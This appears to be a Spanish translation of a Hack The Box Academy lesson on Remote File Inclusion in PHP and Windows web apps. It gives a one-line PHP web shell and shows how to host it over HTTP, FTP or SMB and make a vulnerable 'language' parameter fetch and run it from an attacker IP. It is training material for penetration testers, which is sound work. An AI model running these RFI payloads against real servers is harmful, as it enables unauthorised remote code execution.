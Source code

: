 Hasta ahora en este módulo, nos hemos centrado principalmente en `Local File Inclusion (LFI)`. Sin embargo, en algunos casos, también podemos incluir archivos remotos "[Remote File Inclusion (RFI)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion)", si la función vulnerable permite la inclusión de URLs remotas. Esto permite dos beneficios principales:

1. Enumerar puertos y aplicaciones web locales (i.e. SSRF)
2. Obtener ejecución remota de código al incluir un script malicioso que alojamos

En esta sección, cubriremos cómo obtener ejecución remota de código a través de vulnerabilidades RFI. El módulo [Server-side Attacks](https://academy.hackthebox.com/module/details/145) cubre varias técnicas `SSRF`, que también pueden ser utilizadas con vulnerabilidades RFI.

## Local vs. Remote File Inclusion

Cuando una función vulnerable nos permite incluir archivos remotos, podemos alojar un script malicioso y luego incluirlo en la página vulnerable para ejecutar funciones maliciosas y obtener ejecución remota de código. Si nos referimos a la tabla de la primera sección, vemos que las siguientes son algunas de las funciones que (si son vulnerables) permitirían RFI:

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|✅|✅|✅|
|`file_get_contents()`|✅|❌|✅|
|**Java**||||
|`import`|✅|✅|✅|
|**.NET**||||
|`@Html.RemotePartial()`|✅|❌|✅|
|`include`|✅|✅|✅|

Como podemos ver, casi cualquier vulnerabilidad RFI también es una vulnerabilidad LFI, ya que cualquier función que permite incluir URLs remotas generalmente también permite incluir locales. Sin embargo, un LFI no necesariamente es un RFI. Esto se debe principalmente a tres razones:

1. La función vulnerable puede no permitir incluir URLs remotas.
2. Puedes controlar solo una parte del nombre del archivo y no todo el wrapper del protocolo (ej.: `http://`, `ftp://`, `https://`).
3. La configuración puede prevenir RFI por completo, ya que la mayoría de los servidores web modernos deshabilitan la inclusión de archivos remotos por defecto.

Además, como podemos notar en la tabla anterior, algunas funciones permiten incluir URLs remotas pero no permiten la ejecución de código. En este caso, aún podríamos explotar la vulnerabilidad para enumerar puertos y aplicaciones web locales a través de SSRF.

## Verify RFI

En la mayoría de los lenguajes, incluir URLs remotas se considera una práctica peligrosa ya que puede permitir tales vulnerabilidades. Es por eso que la inclusión de URLs remotas generalmente está deshabilitada por defecto. Por ejemplo, cualquier inclusión de URLs remotas en PHP requeriría que la configuración `allow_url_include` esté habilitada. Podemos verificar si esta configuración está habilitada a través de LFI, como lo hicimos en la sección anterior:

```r
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

Sin embargo, esto no siempre puede ser confiable, ya que incluso si esta configuración está habilitada, la función vulnerable puede no permitir la inclusión de URLs remotas desde el principio. Entonces, una forma más confiable de determinar si una vulnerabilidad LFI también es vulnerable a RFI es `intentar incluir una URL`, y ver si podemos obtener su contenido. Al principio, `siempre deberíamos comenzar intentando incluir una URL local` para asegurarnos de que nuestro intento no sea bloqueado por un firewall u otras medidas de seguridad. Entonces, usemos (`http://127.0.0.1:80/index.php`) como nuestra cadena de entrada y veamos si se incluye:

`http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`

![](https://academy.hackthebox.com/storage/modules/23/lfi_local_url_include.jpg)

Como podemos ver, la página `index.php` se incluyó en la sección vulnerable (i.e. History Description), por lo que la página es realmente vulnerable a RFI, ya que podemos incluir URLs. Además, la página `index.php` no se incluyó como texto de código fuente sino que se ejecutó y se mostró como PHP, por lo que la función vulnerable también permite la ejecución de PHP, lo que nos puede permitir ejecutar código si incluimos un script PHP malicioso que alojamos en nuestra máquina.

También vemos que pudimos especificar el puerto `80` y obtener la aplicación web en ese puerto. Si el servidor backend alojaba otras aplicaciones web locales (ej. puerto `8080`), entonces podríamos acceder a ellas a través de la vulnerabilidad RFI aplicando técnicas SSRF.

**Nota:** Puede que no sea ideal incluir la página vulnerable en sí (i.e. index.php), ya que esto puede causar un bucle de inclusión recursiva y provocar un DoS en el servidor backend.

## Remote Code Execution with RFI

El primer paso para obtener ejecución remota de código es crear un script malicioso en el lenguaje de la aplicación web, PHP en este caso. Podemos usar un web shell personalizado que descargamos de internet, usar un script de reverse shell, o escribir nuestro propio web shell básico como lo hicimos en la sección anterior, que es lo que haremos en este caso:

```r
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Ahora, todo lo que necesitamos hacer es alojar este script e incluirlo a través de la vulnerabilidad RFI. Es una buena idea escuchar en un puerto HTTP común como `80` o `443`, ya que estos puertos pueden estar en la lista blanca en caso de que la aplicación web vulnerable tenga un firewall que prevenga conexiones salientes. Además, podemos alojar el script a través de un servicio FTP o un servicio SMB, como veremos a continuación.

## HTTP

Ahora, podemos iniciar un servidor en nuestra máquina con un servidor básico de python con el siguiente comando:

```r
sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

Ahora, podemos incluir nuestro shell local a través de RFI, como lo hicimos antes, pero usando `<OUR_IP>` y nuestro `<LISTENING_PORT>`. También especificaremos el comando a ejecutar con `&cmd=id`:

`http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

Como podemos ver, obtuvimos una conexión en nuestro servidor python, y el shell remoto fue incluido, y ejecutamos el comando especificado:

```r
sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```

**Tip:** Podemos examinar la conexión en nuestra máquina para asegurarnos de que la solicitud se envíe como la especificamos. Por ejemplo, si vimos que se agregó una extensión extra (.php) a la solicitud, entonces podemos omitirla de nuestro payload.

## FTP

Como se mencionó anteriormente, también podemos alojar nuestro script a través del protocolo FTP. Podemos iniciar un servidor FTP básico con `pyftpdlib` de Python, de la siguiente manera:

```r
sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```

Esto también puede ser útil en caso de que los puertos http estén bloqueados por un firewall o la cadena `http://` sea bloqueada por un WAF. Para incluir nuestro script, podemos repetir lo que hicimos antes, pero usando el esquema `ftp://` en la URL, de la siguiente manera:

`http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id`

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

Como podemos ver, esto funcionó de manera muy similar a nuestro ataque http, y el comando fue ejecutado. Por defecto, PHP intenta autenticarse como usuario anónimo. Si el servidor requiere autenticación válida, entonces las credenciales se pueden especificar en la URL, de la siguiente manera:

```r
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## SMB

Si la aplicación web vulnerable está alojada en un servidor Windows (lo cual podemos determinar a partir de la versión del servidor en

 los encabezados de respuesta HTTP), entonces no necesitamos que la configuración `allow_url_include` esté habilitada para la explotación RFI, ya que podemos utilizar el protocolo SMB para la inclusión de archivos remotos. Esto se debe a que Windows trata los archivos en servidores SMB remotos como archivos normales, los cuales pueden ser referenciados directamente con una ruta UNC.

Podemos iniciar un servidor SMB usando `Impacket's smbserver.py`, el cual permite autenticación anónima por defecto, de la siguiente manera:

```r
impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Ahora, podemos incluir nuestro script usando una ruta UNC (ej. `\\<OUR_IP>\share\shell.php`), y especificar el comando con (`&cmd=whoami`) como lo hicimos antes:

`http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami`

![](https://academy.hackthebox.com/storage/modules/23/windows_rfi.png)

Como podemos ver, este ataque funciona al incluir nuestro script remoto, y no necesitamos que ninguna configuración no predeterminada esté habilitada. Sin embargo, debemos tener en cuenta que esta técnica `es más probable que funcione si estamos en la misma red`, ya que acceder a servidores SMB remotos a través de internet puede estar deshabilitado por defecto, dependiendo de las configuraciones del servidor Windows.
